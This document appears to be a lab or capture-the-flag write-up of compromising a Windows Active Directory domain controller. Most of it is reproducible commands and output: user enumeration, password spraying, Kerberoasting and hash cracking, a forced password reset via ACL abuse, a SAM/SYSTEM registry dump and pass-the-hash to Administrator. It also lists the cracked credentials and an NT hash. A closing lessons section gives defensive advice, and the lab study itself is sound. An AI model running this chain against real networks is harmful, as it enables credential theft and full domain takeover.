

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows Server 2022 |
| Difficulty                | Not specified |
| Attack Surface            | Active Directory (Kerberos, MSSQL, SMB, RDP) |
| Primary Entry Vector      | Password spray (info:info), Kerberoasting to crack Hazel.Green, ForceChangePassword on Molly.Smith |
| Privilege Escalation Path | UAC bypass (RunAs) + SeBackupPrivilege to dump SAM/SYSTEM, Pass-the-Hash to Administrator |

## Credentials

```text
info:info
Hazel.Green haze1988
Molly.Smith Welc0me2024
Administrator NTHash: d752482897d54e239376fddb2a2109e4
```

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.40:53
Open 192.168.198.40:80
Open 192.168.198.40:88
Open 192.168.198.40:135
Open 192.168.198.40:139
Open 192.168.198.40:389
Open 192.168.198.40:445
Open 192.168.198.40:464
Open 192.168.198.40:593
Open 192.168.198.40:636
Open 192.168.198.40:1433
Open 192.168.198.40:3268
Open 192.168.198.40:3269
Open 192.168.198.40:5985
Open 192.168.198.40:8530
Open 192.168.198.40:8531
Open 192.168.198.40:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com)
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8530/tcp  open  http          Microsoft IIS httpd 10.0
9389/tcp  open  mc-nmf        .NET Message Framing
```

Anonymous access was denied on SMB, LDAP, and RPC. Kerbrute user enumeration found valid accounts:

```bash
kerbrute userenum --dc $ip -d hokkaido-aerospace.com /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```

```bash
[+] VALID USERNAME:  info@hokkaido-aerospace.com
[+] VALID USERNAME:  administrator@hokkaido-aerospace.com
[+] VALID USERNAME:  discovery@hokkaido-aerospace.com
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

Password spray with username-as-password revealed `info:info` for both SMB and MSSQL:

```bash
netexec mssql $ip -u user.txt -p user.txt -d hokkaido-aerospace.com --no-bruteforce
```

```bash
MSSQL       192.168.198.40  1433   DC               [+] hokkaido-aerospace.com\info:info
```

MSSQL access was guest-level (no sysadmin), but the `info` account was valid for Kerberoasting:

```bash
impacket-GetUserSPNs hokkaido-aerospace.com/info:info -dc-ip $ip -request
```

```bash
ServicePrincipalName                   Name         MemberOf                                                      PasswordLastSet             LastLogon
-------------------------------------  -----------  ------------------------------------------------------------  --------------------------  --------------------------
discover/dc.hokkaido-aerospace.com     discovery    CN=services,CN=Users,DC=hokkaido-aerospace,DC=com             2023-12-07 00:42:56.221832  2026-03-17 03:05:32.909076
http/fake.hokkaido-aerospace.com       Hazel.Green  CN=Tier2-Admins,OU=admins,OU=it,DC=hokkaido-aerospace,DC=com  2023-12-07 01:34:46.565497  2026-03-17 03:09:36.268444
maintenance/dc.hokkaido-aerospace.com  maintenance  CN=services,CN=Users,DC=hokkaido-aerospace,DC=com             2023-11-25 22:39:04.869703  <never>
```

Hashcat cracked the Hazel.Green TGS-REP hash:

```bash
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```

```bash
$krb5tgs$23$*Hazel.Green$HOKKAIDO-AEROSPACE.COM$...:haze1988
```

Hazel.Green was a member of Tier2-Admins. bloodyAD discovered a ForceChangePassword right on Molly.Smith:

```bash
bloodyAD -d hokkaido-aerospace.com -u 'Hazel.Green' -p 'haze1988' \
  --host 192.168.198.40 get writable --right 'WRITE' --detail
```

```bash
distinguishedName: CN=Molly Smith,OU=Tier1,OU=admins,OU=it,DC=hokkaido-aerospace,DC=com
pwdLastSet: WRITE
```

Reset Molly.Smith's password:

```bash
bloodyAD -d hokkaido-aerospace.com -u 'Hazel.Green' -p 'haze1988' \
  --host 192.168.198.40 set password 'Molly.Smith' 'Welc0me2024'
```

```bash
[+] Password changed successfully!
```

Molly.Smith had RDP access (Remote Desktop Users + Server Operators):

```bash
nxc rdp $ip -u Molly.Smith -p 'Welc0me2024' --continue-on-success
```

```bash
RDP         192.168.198.40  3389   DC               [+] hokkaido-aerospace.com\Molly.Smith:Welc0me2024 (Pwn3d!)
```

```bash
xfreerdp3 +clipboard /drive:share,/home/n0z0/share /v:$ip /u:Molly.Smith /p:Welc0me2024
```

```bash
local.txt: cf5586a752603d7d7b4987e35fce23f5
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
Molly.Smith was a Server Operators member, but UAC filtered the token to Medium Integrity Level with groups set to "deny only". A UAC bypass was needed:

```powershell
powershell Start-Process cmd -Verb RunAs
```

After elevation, `SeBackupPrivilege` appeared in the token (Disabled but present — `reg.exe` internally enables it via `AdjustTokenPrivileges()`):

```powershell
whoami /priv
```

```bash
Privilege Name                Description                         State
============================= =================================== ========
SeMachineAccountPrivilege     Add workstations to domain          Disabled
SeBackupPrivilege             Back up files and directories       Disabled
SeRestorePrivilege            Restore files and directories       Disabled
SeShutdownPrivilege           Shut down the system                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
```

Server Operators group was now fully enabled:

```powershell
whoami /groups | findstr /i "server"
```

```bash
BUILTIN\Server Operators  Alias  S-1-5-32-549  Mandatory group, Enabled by default, Enabled group
```

Dumped SAM and SYSTEM registry hives using SeBackupPrivilege:

```powershell
reg save HKLM\SAM C:\Users\Molly.Smith\sam.bak
reg save HKLM\SYSTEM C:\Users\Molly.Smith\system.bak
```

```bash
The operation completed successfully.
```

Extracted local administrator hash offline:

```bash
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d752482897d54e239376fddb2a2109e4:::
```

Pass-the-Hash with evil-winrm to get Administrator access:

```bash
evil-winrm -i $ip -u administrator -H d752482897d54e239376fddb2a2109e4
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\desktop> type proof.txt
d796d05a41bc2fed96a944888776ea95
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- Avoid username-as-password accounts — password spray with `info:info` provided initial domain access.
- Kerberoastable service accounts need strong passwords (25+ characters) — weak passwords are cracked instantly with rockyou.txt.
- Audit ForceChangePassword/pwdLastSet WRITE permissions across tiers — Tier2 should not reset Tier1 passwords.
- Server Operators membership with RDP access enables UAC bypass to High Integrity, unlocking SeBackupPrivilege.
- SeBackupPrivilege (even Disabled) allows SAM/SYSTEM registry dump — monitor for `reg save HKLM\SAM` events.
- Use LAPS or unique local admin passwords to prevent Pass-the-Hash after SAM extraction.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- Kerbrute: https://github.com/ropnop/kerbrute
- Impacket (GetUserSPNs, secretsdump): https://github.com/fortra/impacket
- bloodyAD: https://github.com/CravateRouge/bloodyAD
- Evil-WinRM: https://github.com/Hackplayers/evil-winrm
- Hashcat: https://hashcat.net/hashcat/
- SeBackupPrivilege Abuse: https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
